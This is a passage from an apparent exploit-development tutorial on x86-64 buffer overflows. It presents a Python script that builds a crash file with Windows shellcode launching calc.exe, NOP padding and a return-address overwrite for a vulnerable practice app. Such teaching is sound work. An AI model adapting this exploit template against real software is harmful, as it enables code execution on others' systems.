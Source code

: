 
We can now add this to our exploit code to get the following:
```
f = open("crash-4.txt", "wb")  
  
buf =  b""  
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"  
buf += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"  
buf += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"  
buf += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"  
buf += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"  
buf += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"  
buf += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"  
buf += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"  
buf += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"  
buf += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"  
buf += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"  
buf += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"  
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"  
buf += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"  
buf += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"  
buf += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"  
buf += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"  
buf += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41"  
buf += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"  
buf += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"  
buf += b"\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65"  
buf += b"\x78\x65\x00"  
buf += b"\x90" * (712 - len(buf))  
buf += b"\xF0\x6A\x7D\x00\x00\x00\x00\x00" #00000000007D6AF0  
buf += b"\x41" * 300  
	  
f.write(buf)  
f.close()
```

Which after passing to the vulnerable app and stepping through the breakpoint should cause the calculator to pop up.

<p align="center"><img src="/images/basics-of-exploit-development-5-x86-64-buffer-overflows/Exploit-Complete.PNG"/></p>    
<p align="center"><i>Exploit completed!</i></p>